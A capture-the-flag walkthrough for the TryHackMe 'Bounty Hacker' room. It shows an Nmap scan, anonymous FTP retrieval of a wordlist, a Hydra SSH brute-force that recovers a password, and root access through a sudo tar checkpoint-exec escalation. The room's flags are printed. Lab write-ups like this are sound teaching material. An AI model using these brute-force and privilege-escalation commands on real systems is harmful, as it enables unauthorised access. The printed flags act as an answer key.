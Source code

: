 # Bounty Hacker

## Description

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

## Initial Scan

We start with an Nmap scan. The scan reveals three open ports:
* 21 ftp
* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.3.156
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## FTP

I start with the FTP service, since anonymous login is allowed. I found two files in there:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Bounty_Hacker/files]
└─$ ftp $IP
Connected to 10.10.182.74.
220 (vsFTPd 3.0.3)
Name (10.10.182.74:user): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt   <----------
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt    <----------
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.06 secs (7.1135 kB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (53.7702 kB/s)
ftp> exit
221 Goodbye.
~~~

After downloading them, I checked their content. `locks.txt` is a wordlist which we would probably need later and `task.txt` is just a task list but the name of the writer  could be a username:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Bounty_Hacker/files]
└─$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin     <------------------
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Bounty_Hacker/files]
└─$ cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te

[REDACTED]
~~~

Writer: `lin`

## Brute-forcing SSH servie

Let's try brute-forcing the SSH service using the username and the wordlist (`locks.txt`). I used `hydra` to brute-force and it found the password:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Bounty_Hacker/files]
└─$ hydra -l lin -P ./locks.txt ssh://$IP                            
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-21 06:01:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.182.74:22/
[22][ssh] host: 10.10.182.74   login: lin   password: RedDr4gonSynd1cat3  <---------
1 of 1 target successfully completed, 1 valid password found
~~~

Brute-forced service: `SSH`

Lin's password: `RedDr4gonSynd1cat3`

## User Flag

Let's log into SSH service using the creds (`lin:RedDr4gonSynd1cat3`). We are logged in as user `lin` and the user flag is in `~/Desktop`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Bounty_Hacker/files]
└─$ ssh lin@$IP
lin@10.10.182.74's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Thu Oct 21 05:03:54 2021 from 10.9.3.156
lin@bountyhacker:~/Desktop$ id
uid=1001(lin) gid=1001(lin) groups=1001(lin)
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
~~~

user.txt: `THM{CR1M3_SyNd1C4T3}`

## Root Flag

Now we need to gain root access, in order to obtain the root flag. Let's run `sudo -l` to check our permissions:

~~~
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
~~~

We can run `tar` with sudo and no password. I checked [GTFOBins](https://gtfobins.github.io/) for privilege escalation commands and found one. Let's try it:

~~~
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# id
uid=0(root) gid=0(root) groups=0(root)
~~~

It worked and now we are root. Let's read the root flag located in `/root`:

~~~
# cd /root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
~~~

root.txt: `THM{80UN7Y_h4cK3r}`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and have a good one! : )